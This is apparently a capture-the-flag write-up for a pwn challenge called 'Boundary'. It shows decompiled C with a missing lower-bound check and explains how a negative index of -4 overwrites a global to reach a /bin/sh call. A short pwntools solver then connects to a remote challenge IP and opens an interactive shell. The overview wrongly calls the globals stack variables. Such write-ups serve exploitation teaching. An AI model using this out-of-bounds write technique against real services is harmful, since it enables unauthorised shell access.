

# Boundary


## Source Code
```c
void win(void)

{
  if (check == 0x539) {
    system("/bin/sh");
    return;
  }
  puts("Who the f are you");
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```
```c
undefined8 main(void)

{
  int var1;
  int var2;
  
  setup();
  puts("I am going to give you one chance to get victory");
  __isoc99_scanf("%d %d",&var2,&var1);
  if (var2 < 5) {
    *(int *)(info + (long)var2 * 4) = *(int *)(info + (long)var2 * 4) + var1;
  }
  win();
  return 0;
}
```
## Overview
In this challenge we got 2 variable stored in the Stack ```info = 0x4040a0``` and ```check = 0x404090``` where the difference is 0x10. So in order to solve it we need to point to ```check``` and assign to it ```0x539```(1337 in integer) to get a Shell. But how we do that ? 
Thanks to this expression ```*(int *)(info + (long)var2 * 4) = *(int *)(info + (long)var2 * 4) + var1;``` if ```var2 == -4``` and ```var1 == 1337``` it will be like ```*(int *)(0x404090) = 0 + 1337``` as simple as that !

## Solver
```py
#!/usr/bin/env python3
from pwn import *

p = remote("20.216.40.184", 10013)

p.sendline(b'-4')
p.sendline(b'1337')
p.interactive()
p.close()
```